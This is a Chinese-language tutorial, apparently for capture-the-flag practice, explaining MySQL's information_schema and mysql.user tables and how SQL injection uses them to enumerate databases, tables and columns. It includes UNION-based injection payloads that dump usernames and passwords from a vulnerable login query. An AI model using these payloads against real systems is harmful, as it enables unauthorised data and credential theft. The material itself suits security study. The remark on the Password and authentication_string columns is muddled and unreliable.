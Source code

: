 ### 一、MySQL 系统表简介

MySQL 的 **系统表** 存储在 `information_schema` 和 `mysql` 数据库中。它们保存了数据库的元数据，如表、列、用户权限、字符集等信息。

1. `information_schema`: 存储 MySQL 数据库服务器的元数据信息，用户可以查询这些表来了解数据库的结构。

2. `mysql`: 存储 MySQL 用户账户、权限等安全相关的信息。通常只有高权限用户才能访问。

------

### 二、`information_schema` 数据库

`information_schema` 是 MySQL 的元数据表，主要包含以下常用的系统表：

| 系统表             | 描述                                           |
| ------------------ | ---------------------------------------------- |
| `TABLES`           | 存储所有数据库中表的信息，如表名、表类型等。   |
| `COLUMNS`          | 存储所有数据库中列的信息，如列名、数据类型等。 |
| `SCHEMATA`         | 存储所有数据库的名称。                         |
| `KEY_COLUMN_USAGE` | 存储主键、外键等约束信息。                     |
| `USER_PRIVILEGES`  | 存储用户权限信息。                             |
| `CHARACTER_SETS`   | 存储 MySQL 支持的字符集信息。                  |
| `COLLATIONS`       | 存储排序规则相关信息。                         |

------

### 三、常见的 SQL 注入信息枚举过程

通过 **SQL 注入** 攻击，参赛者可以利用系统表来泄露数据库中的敏感信息。以下是常见的步骤：

**获取数据库名称**

```sql
#获取当前 MySQL 实例中所有数据库的名称。
SELECT schema_name FROM information_schema.schemata;
```

**获取表名称**

```sql
#查询某个数据库 (`table_schema`) 中的所有表名。
SELECT table_name FROM information_schema.tables WHERE table_schema='目标数据库';
```

**获取列名称**

```sql
#查询某个表中的所有列名。
SELECT column_name FROM information_schema.columns WHERE table_name='目标表' AND table_schema='目标数据库';
```

**获取表的数据** 一旦知道了表名和列名，可以通过 SQL 注入来获取表内的数据，例如：

```
SELECT login_name, login_passwd FROM lesson_user;
```

------

### 四、基于 `information_schema` 的 SQL 注入示例

假设一个网站存在 SQL 注入漏洞，我们将通过注入获取数据库信息。以下是一个注入场景示例。

假设网站存在以下查询：

```
SELECT * FROM users WHERE username='$username' AND password='$password';
```

攻击者可以通过修改输入来进行 SQL 注入。

注入步骤

**获取数据库名称**

```
#通过 `UNION SELECT` 合并查询，列出所有数据库名称。
' OR 1=1 UNION SELECT schema_name, NULL FROM information_schema.schemata #
```

**获取表名**

```sql
 #查询特定数据库中的所有表。
' OR 1=1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='目标数据库'
```

**获取列名**

```sql
#查询特定表中的所有列名。
' OR 1=1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
```

**获取敏感数据**

```sql
#获取 `users` 表中的用户名和密码。
' OR 1=1 UNION SELECT username, password FROM users #
```

------

### 五、MySQL 用户账户表 (`mysql.user`)

`mysql.user` 是存储 MySQL 用户信息的表，通常只有高权限用户可以访问。

| 列名          | 描述                                                       |
| ------------- | ---------------------------------------------------------- |
| `Host`        | 用户允许登录的主机。                                       |
| `User`        | 用户名。                                                   |
| `Password`    | 用户密码（MySQL 8.0 之前存储为 `authentication_string`）。 |
| `Select_priv` | 是否有 `SELECT` 权限。                                     |
| `Insert_priv` | 是否有 `INSERT` 权限。                                     |
| ...           | 其他权限字段，如 `UPDATE`, `DELETE` 等。                   |

通过 SQL 注入，攻击者可以尝试获取用户表中的信息，从而进行进一步攻击。

```sql
#列出 MySQL 用户
SELECT user, host FROM mysql.user;
```

